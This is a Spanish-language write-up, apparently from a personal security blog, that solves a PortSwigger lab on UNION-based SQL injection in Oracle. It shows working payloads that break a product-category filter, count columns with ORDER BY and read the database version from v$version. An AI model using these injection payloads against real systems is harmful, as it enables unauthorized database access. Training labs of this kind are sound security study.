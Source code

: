 ```yaml
---
title: "SQL injection attack, querying the database type and version on Oracle"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2024-11-13 12:33:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, querying the database type and version on Oracle
  - Oracle Database
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Utilizaremos un ataque `UNION` para obtener los resultados de la consulta, para `resolver` el `laboratorio`, hay que mostrar la `versión` de la `base` de `datos`

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI/](https://justice-reaper.github.io/posts/SQLI/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-3/image_1.png)

Pinchamos en alguna de las `categorías`, capturamos la `petición` con `Burpsuite` y le `añadimos` una `'` a `category`

![](/assets/img/SQLI-Lab-3/image_2.png)

Si `enviamos` la `petición` nos dará un `Internal Server Error` debido a que hemos logrado `interferir` con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-3/image_3.png)

Si usamos este `payload`, ya habremos `solucionado` el `error` que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Lifestyle'or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-3/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Lifestyle'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es ignorar el resto de la `query`

```
SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1 -- - '
```

Usando `order by` podemos identificar cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no `obtendremos` ningún `error`

```
/filter?category=Lifestyle'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-3/image_5.png)

Sin embargo, si ponemos un `número` de `columnas` que `no existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Lifestyle'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-3/image_6.png)

A continuación usamos `union select` para señalar ambos campos, usamos `from dual` al final porque en este caso la base de datos es `Oracle`

```
/filter?category=Lifestyle'union+select+null,null+from+dual--+-+
```

Con este `payload` lo que hacemos es `listar` la `versión` de la `base` de `datos`

```
/filter?category=Gifts'+union+select+null,banner+from+v$version--+-
```

![](/assets/img/SQLI-Lab-3/image_7.png)

